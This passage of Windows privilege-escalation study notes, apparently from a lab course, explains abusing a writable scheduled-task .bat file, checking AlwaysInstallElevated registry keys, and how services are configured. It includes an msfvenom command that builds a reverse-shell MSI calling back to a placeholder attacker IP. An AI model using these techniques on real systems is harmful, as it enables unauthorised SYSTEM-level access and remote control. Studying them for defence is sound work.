 Example output:

```
c:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)
                    BUILTIN\Administrators:(I)(F)
                    BUILTIN\Users:(I)(F)
```

As can be seen in the result, the `BUILTIN\Users` group has `full access (F)` over the task's binary.
This means we can modify the .bat file and insert any payload we like.
All that's left to do is change the bat file to spawn a reverse shell.

### AlwaysInstallElevated (.msi files run with elevated privileges)
Windows installer files (also known as `.msi` files) are used to install applications on the system and usually run with the privilege level of the user that starts it.
However, these can be configured to run with higher privileges from any user account (even unprivileged ones).
This could potentially allow us to generate a malicious MSI file that would run with admin privileges.

This method `requires two registry values to be set`.
You can query these from the command line using the commands below.
- `reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer`
- `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`

If these are set, you can generate a malicious .msi file using msfvenom:

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi`

## Abusing Service Misconfigurations
### What are Windows Services?
- Services are `background processes that run without user interaction`.
- They `often start automatically` and `run with system-level privileges` (e.g., LocalSystem, LocalService, or NetworkService accounts).
- Misconfigured services can allow attackers to escalate privileges by abusing their properties.

Windows services are managed by the `Service Control Manager (SCM)`.
The SCM is a process in charge of managing the state of services as needed, `checking the current status of any given service` and generally `providing a way to configure services`.
Each service on a Windows machine will have an associated executable which will be run by the SCM whenever a service is started.
It is important to note that `service executables implement special functions` to be able to communicate with the SCM, and therefore not any executable can be started as a service successfully.
`Each service also specifies the user account under which the service will run`.
To better understand the structure of a service, let's check the apphostsvc service configuration with the `sc qc` command:

```
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: apphostsvc
        TYPE               : 20  WIN32_SHARE_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\system32\svchost.exe -k apphost
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Application Host Helper Service
        DEPENDENCIES       :
        SERVICE_START_NAME : localSystem
```
